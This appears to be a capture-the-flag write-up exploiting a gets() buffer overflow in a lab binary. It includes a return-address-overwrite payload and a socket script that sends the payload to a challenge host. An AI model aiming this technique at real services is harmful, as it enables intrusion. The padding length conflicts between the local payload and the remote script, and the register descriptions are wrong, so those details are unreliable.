









## Snapshot



## Writeup
I Start by downloading the binary and decompiling using online decompiler [Binary Ninja](https://binary.ninja/). The Binary is a 64-bit ELF file. The decompiled code shows that the binary has a function called `echo` which takes a string as input and prints it to the console. The binary also has a function called `main` which calls the `echo` function with a hardcoded string.



Notice that the `main` function calls the `gets` function which can be exploited to perform a buffer overflow attack. The `gets` function does not check the length of the input string, which means that we can overflow the buffer and overwrite the return address of the `main` function. This allows us to execute arbitrary code.

I will use the `gdb` debugger to analyze the binary and find the address of the `win`function. 



then I use the python command to create a pattern of 137 bytes and then run the binary with that input to test the buffer overflow.



then I run the binary in `gdb` and check the stack to see if the return address has been overwritten.



Notice that the rbp (x64 stack pointer) points has been overwritten with the address. So I try input another character to see if the return address which on rip (x64 stack pointer) has been overwritten.



I found that the return address has been written to 0x4242424242. So I use python to create a payload that will overwrite the return address with the address of the `win` function which is `0x0000000000401216`.

```python
python -c 'print "A"*136 + "\x16\x12\x40\x00\x00\x00"' > payload.txt
```

Before running the binary, I make a fake `flag.txt` file to check if the binary is running the `win` function. The `win` function is supposed to read the flag from the `flag.txt` file and print it to the console.

```bash
echo "FTF{this_is_a_fake_flag}" > flag.txt
```

Then I run the binary with the payload and check the output.

```bash
./echo < payload.txt
```



Ta-da! I got the flag. The flag is `FTF{this_is_a_fake_flag}`.
The binary is vulnerable to buffer overflow attacks and can be exploited to execute arbitrary code. The `gets` function is the main vulnerability in this binary. It is important to always check the length of the input string when using functions like `gets` to prevent buffer overflow attacks.

Next, we create a script to exploit the binary on the server. The script will create a payload that will overwrite the return address with the address of the `win` function and then run the binary with the payload.

```python
import socket

def exploit(host, port, payload):
    """Sends the payload and receives the echoed text."""
    try:
        with socket.create_connection((host, port)) as s:
            # Receive the initial prompt
            prompt = s.recv(1024).decode('latin-1', errors='ignore') # Or utf-8
            print(f"Received prompt: {prompt}")

            # Send the payload
            s.sendall(payload)
            s.sendall(b"\n") # Send a newline character, very important.

            # Receive the echoed text (and any other responses)
            response = s.recv(4096).decode('latin-1', errors='ignore') # Or utf-8

            print(f"Received response: {response}")

    except ConnectionRefusedError:
        print(f"Connection refused to {host}:{port}")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    host = "challenge.ctf.games" # Replace with the actual host
    port = 31084 # Replace with the actual port number
    payload = b"A" * 126 + b"\x16\x12\x40\x00\x00\x00"  # Your payload

    exploit(host, port, payload)
```

and the flag will be printed on the console.
`flag{4f4293237e37d06d733772a087299f17}`

## Explanation Why It Works
The exploit works because the `gets` function does not check the length of the input string, which allows us to overflow the buffer and overwrite the return address of the `main` function. On the other hand, the compiler does not add any stack canaries or other protections to prevent buffer overflow attacks. This allows us to execute arbitrary code by overwriting the return address with the address of the `win` function.

### Buffer Overflow
First of all, let's understand what a buffer overflow is. A buffer overflow occurs when a program writes more data to a buffer than it can hold. This can lead to overwriting adjacent memory locations, including the return address of a function. When the function returns, it will jump to the overwritten address, which can lead to arbitrary code execution.



In x86_64 architecture, the stack grows downwards, meaning that the higher memory addresses are at the top of the stack and the lower memory addresses are at the bottom. When a function is called, a new stack frame is created, and the return address is pushed onto the stack. If we overflow the buffer, we can overwrite the return address with our own address. In diagram below, we can see how the stack looks like before and after the overflow but is x86 architecture.



X86_64 architecture is similar to x86 architecture but with some differences. In x86_64 architecture, the stack grows downwards, and the return address is stored in the `RIP` register. When the function returns, it jumps to the address stored in the `RIP` register. If we overflow the buffer and overwrite the return address with our own address, we can execute arbitrary code.

## References
- [The Stack](https://ctf101.org/binary-exploitation/what-is-the-stack/#:~:text=The%20esp%20%2F%20rsp%20register%20holds,at%20that%20location%20in%20memory.)